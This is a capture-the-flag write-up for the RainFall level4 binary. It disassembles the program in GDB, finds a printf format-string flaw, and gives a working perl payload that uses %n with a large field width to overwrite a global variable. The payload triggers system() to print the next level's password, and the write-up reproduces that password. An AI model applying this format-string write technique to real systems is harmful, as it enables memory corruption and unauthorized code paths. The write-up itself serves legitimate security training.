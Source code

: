 # level4

> We use [GDB peda](https://github.com/longld/peda) in order to get a better GDB visualization.

1. [Analysis](#analysis)
2. [Exploit](#exploit)

## Analysis

As in the previous level, `main` does nothing but a call to function `n`.

```gdb
gdb-peda$ disas n
Dump of assembler code for function n:
   0x08048457 <+0>:     push   ebp
   0x08048458 <+1>:     mov    ebp,esp
   0x0804845a <+3>:     sub    esp,0x218                     ; 536 bytes of stack space reclaimed
   0x08048460 <+9>:     mov    eax,ds:0x8049804              ; eax = stdin
   0x08048465 <+14>:    mov    DWORD PTR [esp+0x8],eax       ; push stdin to stack
   0x08048469 <+18>:    mov    DWORD PTR [esp+0x4],0x200     ; push 512 to stack
   0x08048471 <+26>:    lea    eax,[ebp-0x208]               ; load buffer address in eax
   0x08048477 <+32>:    mov    DWORD PTR [esp],eax           ; push eax to stack
   0x0804847a <+35>:    call   0x8048350 <fgets@plt>         ; call fgets
   0x0804847f <+40>:    lea    eax,[ebp-0x208]               ; load buffer address in eax
   0x08048485 <+46>:    mov    DWORD PTR [esp],eax           ; push eax to stack
   0x08048488 <+49>:    call   0x8048444 <p>                 ; call p
   0x0804848d <+54>:    mov    eax,ds:0x8049810              ; eax = data segment variable (that equals 0 here)
   0x08048492 <+59>:    cmp    eax,0x1025544                 ; compare eax to 0x1025544 (16930116 in decimal)
   0x08048497 <+64>:    jne    0x80484a5 <n+78>              ; jump to leave instruction if not equal
   0x08048499 <+66>:    mov    DWORD PTR [esp],0x8048590     ; push address 0x8048590 to stack (contains "/bin/cat /home/user/level5/.pass")
   0x080484a0 <+73>:    call   0x8048360 <system@plt>        ; call system
   0x080484a5 <+78>:    leave
   0x080484a6 <+79>:    ret
End of assembler dump.
```

Functions called : `fgets`, `system`, and `p`

```gdb
gdb-peda$ disas p
Dump of assembler code for function p:
   0x08048444 <+0>:     push   ebp
   0x08048445 <+1>:     mov    ebp,esp
   0x08048447 <+3>:     sub    esp,0x18                     ; 23 bytes of stack space reclaimed
   0x0804844a <+6>:     mov    eax,DWORD PTR [ebp+0x8]      ; copy buffer address (argument from `n` function) to eax
   0x0804844d <+9>:     mov    DWORD PTR [esp],eax          ; push eax to stack
   0x08048450 <+12>:    call   0x8048340 <printf@plt>       ; call printf
   0x08048455 <+17>:    leave
   0x08048456 <+18>:    ret
End of assembler dump.
```
Function called : `printf`

Actually, the behaviour of this program is similar to the previous one. It call `fgets` to read from stdin, print the buffer thanks to `printf`, then assign the value of the address `0x8049810` to `eax` and compare it to an arbitrary value (0x1025544) to determine if the function will leave or execute a call to the `system` function before.

We dump the content of the address `0x8048590`, used as the parameter of `system`, using gdb.

```gdb
gdb-peda$ x/s 0x8048590
0x8048590: "/bin/cat /home/user/level5/.pass"
```

So, what we have to do is to write the value '0x1025544' ('16930116' in decimal) to the address `0x8049810`, using the format string vulnerability of `printf`. They are two main differences with the previous level :
- The buffer is declared and printed in two differents functions (`n` and `p`).
- The value we have to write is way larger than the buffer size.

## Exploit

We first look for the offset in the stack where we will retrieve the content of our buffer. This offset will be further on the stack than in the previous level, due to the buffer declared in `n` and the call to `printf` done in `p`.

```console
level4@RainFall:~$ perl -e 'print "AAAA %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x\n"' > /tmp/level4
level4@RainFall:~$ cat /tmp/level4 | ./level4
AAAA b7ff26b0 bffff784 b7fd0ff4 00000000 00000000 bffff748 0804848d bffff540 00000200 b7fd1ac0 b7ff37d0 41414141
```

Knowing that the 12th argument is the beginning of our buffer, we have to find a way to make `printf` write 16930116 bytes before using the `%n` conversion. To do so, we use the field width modifier of `printf` on the last `%x` conversion, as we did previously on each one to print the stack content with an eight characters padding.

But before, we prepare our string without this padding to write its length to `eax` and get it with gdb.

```console
level4@RainFall:~$ perl -e 'print "\x10\x98\x04\x08%x%x%x%x%x%x%x%x%x%x%x%n"' > /tmp/level4
level4@RainFall:~$ gdb ./level4
Reading symbols from /home/user/level4/level4...(no debugging symbols found)...done.
gdb-peda$ b *0x08048492
Breakpoint 1 at 0x8048492
gdb-peda$ run < /tmp/level4
Breakpoint 1, 0x08048492 in n ()
gdb-peda$ x/s $eax
0x48:	 <Address 0x48 out of bounds>
```

Our current string length is 0x48, or 72 in decimal, we want to write the value 16930116, and the `%x` argument we use for the padding contains the value 'b7ff37d0' which is 8 bytes long to print.

16930116 - 72 + 8 = 16930052 bytes of padding needed. Let's do it !

```console
level4@RainFall:~$ perl -e 'print "\x10\x98\x04\x08%x%x%x%x%x%x%x%x%x%x%16930052x%n"' > /tmp/level4
level4@RainFall:~$ cat /tmp/level4 | ./level4
...
[hit return, then wait for printf to write the whole string]
...
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

